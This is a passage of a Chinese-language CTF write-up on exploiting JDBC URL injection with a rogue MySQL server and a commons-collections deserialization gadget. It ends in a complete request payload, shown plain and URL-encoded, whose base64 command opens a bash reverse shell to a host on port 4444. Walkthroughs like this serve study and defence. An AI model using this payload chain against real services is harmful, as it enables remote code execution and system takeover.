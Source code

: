 ```xml
    <artifactId>postgresql</artifactId>
    <version>42.3.1</version>
    <scope>runtime</scope>
</dependency>
</dependencies>
```

给了两个依赖, mysql 和 postgresql, 对应两种利用方式

然后还有 commons-collections 依赖, 这个主要是方便大家在后面用 ysoserial 工具去生成反序列化 payload

首先是 mysql 驱动的利用

结合网上文章可以构造对应的 jdbc url

```
jdbc:mysql://host.docker.internal:3308/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

首先得注意, 因为题目给的代码是 `DriverManager.getConnection(url, username, password);`, 即会单独传入一个 username 参数, 因此 url 中的 username 会被后面的 username 给覆盖

网上的部分利用工具会通过 username 来区分不同的 payload, 所以得注意 username 要单独传, 不然写在 url 里面就被覆盖了

其次, 因为 jdbc url 本身也符合 url 的规范, 所以在传 url 参数的时候, 需要把 url 本身全部进行 url 编码, 防止服务器错把 autoDeserialize, queryInterceptors 这些参数当成是一个 http get 参数, 而不是 jdbc url 里面的参数

最后依然是 Runtime.exec 命令编码的问题

一些 mysql jdbc 利用工具

https://github.com/4ra1n/mysql-fake-server

https://github.com/rmb122/rogue_mysql_server

payload

```
/testConnection?driver=com.mysql.cj.jdbc.Driver&url=jdbc:mysql://host.docker.internal:3308/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&username=deser_CC31_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}&password=123
```

url 编码

```
/testConnection?driver=com.mysql.cj.jdbc.Driver&url=%6a%64%62%63%3a%6d%79%73%71%6c%3a%2f%2f%68%6f%73%74%2e%64%6f%63%6b%65%72%2e%69%6e%74%65%72%6e%61%6c%3a%33%33%30%38%2f%74%65%73%74%3f%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65%3d%74%72%75%65%26%71%75%65%72%79%49%6e%74%65%72%63%65%70%74%6f%72%73%3d%63%6f%6d%2e%6d%79%73%71%6c%2e%63%6a%2e%6a%64%62%63%2e%69%6e%74%65%72%63%65%70%74%6f%72%73%2e%53%65%72%76%65%72%53%74%61%74%75%73%44%69%66%66%49%6e%74%65%72%63%65%70%74%6f%72&username=%64%65%73%65%72%5f%43%43%33%31%5f%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%39%6f%62%33%4e%30%4c%6d%52%76%59%32%74%6c%63%69%35%70%62%6e%52%6c%63%6d%35%68%62%43%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d&password=123
```
